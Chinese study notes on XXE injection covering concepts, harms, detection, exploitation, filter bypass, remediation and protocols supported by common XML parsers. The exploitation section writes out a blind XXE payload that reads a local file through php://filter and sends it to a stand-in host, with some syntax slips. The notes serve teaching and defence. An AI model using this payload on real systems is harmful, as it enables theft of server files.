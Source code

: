 # 1、概念

XML   传输和存储数据格式类型

XXE    xml的漏洞注入全称（XML External Entity Injection）

XXE漏洞发生在引用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站等危害

DTD文档可以被XML引入，如在DTD自定义攻击语句，用XML引入DTD文件路径

| XML                                        | HTML                                   |
| ------------------------------------------ | -------------------------------------- |
| 被设计为传输和存储数据，其焦点是数据的内容 | 被设计用来显示数据，其焦点是数据的外观 |
| 旨在传输信息                               | 旨在显示信息                           |

# 2、危害

文件读取

RCE执行

内网攻击

DOS攻击

# 3、检测

## 白盒

函数及可控变量查找

传输和存储数据格式类型

## 黑盒

### 人工

数据格式类型判断

​		<user>test</user><pass>Mikasa</pass>

Content-Type值判断

​		text/xml

​		application/xml

更改Content-Type值看返回

### 工具

# 4、利用

## 输出形式

### 有回显

协议

​		http、file、各脚本支持协议

外部引用



### 无回显

利用dnslog测试

外部引用-反向链接配合

（读取文件）

<? xml version="1.0"?>

<! DOCTYPE test[

<!ENTITY & dtd SYSTEM "http://example.com/test.dtd">

*<!ENTITY & file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/test.txt">*（读取文件源码）

%dtd;

]> 

test.dtd：

<！ENTITY & payload

​				"<！ENTITY   send SYSTEM     'http://examply.com/?data=%file;'>"

%payload;

## 过滤绕过

http://www.cnblogs.com/20175211lyz/p/11413335.html

协议

（协议-读文件）



外部引用

编码UTF-16BE

# 5、修复

禁用外部实体引用

过滤关键字

WAF产品





协议表

| libxml2 | PHP            | JAVA      | .NET  |
| ------- | -------------- | --------- | ----- |
| file    | file           | http      | file  |
| http    | http           | https     | http  |
| ftp     | ftp            | ftp       | https |
|         | php            | file      | ftp   |
|         | compress.zlib  | jar       |       |
|         | compress.bzip2 | netdoc    |       |
|         | data           | mailto    |       |
|         | glob           | gopher  * |       |
|         | phar           |           |       |



XXE自动注入脚本工具

https://www.cnblogs.com/bmjoker/p/9614990.html(Ruby)